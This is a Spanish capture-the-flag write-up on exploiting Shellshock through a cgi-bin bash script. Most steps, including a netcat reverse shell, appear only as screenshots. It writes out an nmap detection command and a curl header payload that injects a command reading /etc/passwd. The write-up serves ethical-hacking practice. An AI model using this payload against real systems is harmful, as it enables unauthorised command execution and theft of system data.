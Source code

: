 #Linux #EscaladePrivilegios #PinguinoMario #HackingEtico 
## **VULNERABILIDAD SHELLSHOCK**

Ahora que vemos que estamos ante un fichero -sh y se trata de una bash, ya que vemos también que la ruta es cgi-bin, podemos intentar explotar la vulnerabilidad shellshock, para colarnos en esa bash y lanzar comandos remotos; para hacer la comprobación lo haremos de esta manera:

![[Pasted image 20221217112739.png]]

Y nos dice que esta bash de la máquina víctima es vulnerable:

![[Pasted image 20221217112746.png]]

Ahora vamos a explotar la vulnerabilidad, ya que existen peticiones especialmente hechas para colar comandos en esta bash vulnerable; y por internet podemos encontrar información:

![[Pasted image 20221217112754.png]]

Y ahora si lanzamos es comando pero pasándole la IP y el cgi-bin/user.sh, podremos lanzar un comando, por ejemplo un whoami:

![[Pasted image 20221217112803.png]]

Pues ahora sabiendo esto, vamos a lanzar la remote shell, para ello nos ponemos por escucha con netcat:

![[Pasted image 20221217112811.png]]

Lanzamos la shell interactiva:

![[Pasted image 20221217112819.png]]

Y nos llega la conexión:

![[Pasted image 20221217112826.png]]

Y por aquí la flag:

![[Pasted image 20221217112834.png]]

# OPCION 2

Para detectar si un target es vulnerable a shellshock, podemos usar este script de nmap pasándole el fichero con extensión .cgi que podremos encontrar dentro de la web:
```bash
nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi”
192.242.220.3
```
![[Pasted image 20230731100233.png]]
Además de ver que hay un archivo con extensión .cgi:
![[Pasted image 20230731100457.png]]
Si buscamos por internet, vemos un comando para explotar esto mismo y tener ejecución remota de comandos:
![[Pasted image 20221217112754.png]]
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable
```
Por tanto ejecutamos esto mismo contra la máquina víctima interceptando primero la petición con burp suite:
![[Pasted image 20230731100932.png]]
Y a continuación lanzamos el payload:
![[Pasted image 20230731101110.png]]
